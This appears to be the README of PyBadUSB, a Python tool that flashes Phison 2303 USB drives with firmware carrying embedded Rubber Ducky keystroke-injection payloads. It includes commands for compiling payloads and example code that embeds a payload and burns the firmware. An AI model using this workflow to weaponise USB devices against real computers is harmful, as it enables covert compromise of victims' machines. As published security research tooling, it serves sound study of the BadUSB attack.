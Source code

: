 #PyBadUSB
PyBadUSB was created to implement BadUSB on a Phison 2303 device using Python.
The project was inspired by [adamcaudill/Psychson](https://github.com/adamcaudill/Psychson) and [flowswitch/phison](https://bitbucket.org/flowswitch/phison).

The python module ```pybadusb``` is used to communicate with a specified USB device.

##Requirements
* Python 2.7
* Windows or Linux

###Firmware
The base firmware you can use is in [bin/fw.bin](bin/fw.bin).
You can compile your own [here](https://github.com/adamcaudill/Psychson/tree/master/firmware).

The burner image used is in [bin/BN03V114M.BIN](bin/BN03V114M.BIN).
Links for finding your own burner image:
* [usbdev](http://www.usbdev.ru/files/phison/)
* [More info](https://github.com/adamcaudill/Psychson/wiki/Obtaining-a-Burner-Image)

###Rubber Ducky
PyBadUSB is currently only designed to embed compiled USB Rubber Ducky scripts.  The test script used can be found in [rubberducky/keys.txt](rubberducky/keys.txt).

You may create your own according to the [Rubber Ducky format](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) or use one of [these](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads).

Use [DuckEncoder](https://code.google.com/p/ducky-decode/downloads/detail?name=DuckEncoder_2.6.3.zip&can=2&q=) to compile your script:
```
java -jar encoder.java -i keys.txt -o inject.bin
```
The created binary can then be embedded into the base firmware.  See example code below.

###Phison Device
This project has only been developed to work with USB devices with the Phison 2303 chipset.

It doesn't seem to be documented which USB devices use the chipset, but a list of devices may be found on the [Psychson wiki](https://github.com/adamcaudill/Psychson/wiki/Known-Supported-Devices).

If you are looking for a device, it should be noted that the Phison 2303 chipset is only for USB3.0.
It should also be noted that this project will not work with USB2.0 or lower because they do not use SCSI commands.
More info on this can be found [here](http://en.wikipedia.org/wiki/USB_Attached_SCSI).

You can check a device's chipset using a one of these scripts:  [Windows](win_checkinfo.py) or [Linux](linux_checkinfo.py).


##Installation
Run the setup script:
```
python setup.py install
```

##Example Code
Here's some example code to get you started:
```python
from pybadusb import badusb, phison

# Set firmware file names
payload  = 'rubberducky/inject.bin'
firmware = 'bin/fw.bin'
burner   = 'bin/BN03V114M.BIN'
embedded = 'hid.bin'

# Get device at drive letter 'H'
device = badusb.get_device(phison.Phison2303, 'H')

# Linux method:
#device = badusb.get_device(phison.Phison2303, '/dev/sg2')

# Embed firmware
badusb.embed(payload, firmware, embedded)

# Flash new firmware using burner image
badusb.burn_firmware(device, burner, fwfile=firmware)

# Finished
device.close()
```
Another example can be found in [example.py](example.py)

##Module
The Python module is split up into three files:
* [badusb](pybadusb/badusb.py)
  - Used to embed firmware and burn firmware to a device.
* [phison](pybadusb/phison.py)
  - Used to create SCSI commands for the device to get info, burn firmware, etc.
* [scsi](pybadusb/src/scsi.cpp)
  - Used to send SCSI commands to the device
  - Written in C++ as a Python extension module

